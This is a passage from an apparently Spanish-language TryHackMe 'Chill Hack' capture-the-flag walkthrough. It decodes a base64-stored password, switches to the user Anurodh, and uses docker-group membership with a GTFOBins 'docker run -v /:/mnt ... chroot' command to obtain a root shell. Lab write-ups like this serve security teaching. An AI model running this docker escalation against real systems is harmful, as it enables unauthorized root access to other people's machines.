 Podemos observar como hay una contraseña cifrada con base64, y si se hace de forma correcta, podemos entrar como Anurodh. Vamos a decodificar la contraseña
```bash
echo IWQwbnRLbjB3bVlwqhnzdzByZA== > base64.txt
cat base64.txt
base64 -d base64.txt
```
![imagen_hacking_chill-hack_48password.png](/imagen_hacking_chill-hack_48password.png)
El resultado de toda esta operación, es que la contraseña es **!d0ntKn0wmYp@ssw0rd**.

Ahora podemos intentar loguearnos como Anurodh. Por lo tanto en la máquina de TryHackMe, vamos a poner:
```bash
su anurodh
```
Y cuando nos pregunte la contraseña ponemos que la hemos obtenido anteriormente.
![imagen_hacking_chill-hack_49anurodh.png](/imagen_hacking_chill-hack_49anurodh.png)
### Anurodh
Ahora somos otro usuario, pero ¿Tenemos los permisos suficientes para entrar como root?
Si hacemos un id;sudo -l, vamos a encontrar algo interesante
```bash
id;sudo -l
```
![imagen_hacking_chill-hack_50idsudol.png](/imagen_hacking_chill-hack_50idsudol.png)
Como observamos en la imagen, pertenecemos a los usuarios del grupo de Docker. Si nos vamos a [GTFOBins](https://gtfobins.github.io/gtfobins/docker/#shell), podemos observar como hay un comando que podemos poner para entrar como root.
```docker
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
Si ponemos este comando podemos ver cómo hemos cambiado a una nueva shell que no tiene mucha información, sin embargo si ponemos **whoami** nos devolverá el root.
![imagen_hacking_chill-hack_51root.png](/imagen_hacking_chill-hack_51root.png)
